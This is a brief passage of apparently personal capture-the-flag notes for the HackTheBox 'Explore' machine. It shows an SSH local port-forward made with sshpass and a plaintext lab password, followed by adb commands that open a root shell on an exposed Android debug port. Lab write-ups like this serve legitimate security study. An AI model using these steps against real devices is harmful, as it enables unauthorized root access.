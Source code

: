 # ADB Port Forwarding

On [[HTB/Explore/05 - Enumeration]] Nmap Scan, 5555 is filtered, so we can forward to open it

```bash
sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh kristi@10.129.172.254 -p 2222 -L 5555:127.0.0.1:5555
```

# ADB Shell

```bash
adb connect localhost:5555
adb root
adb shell
```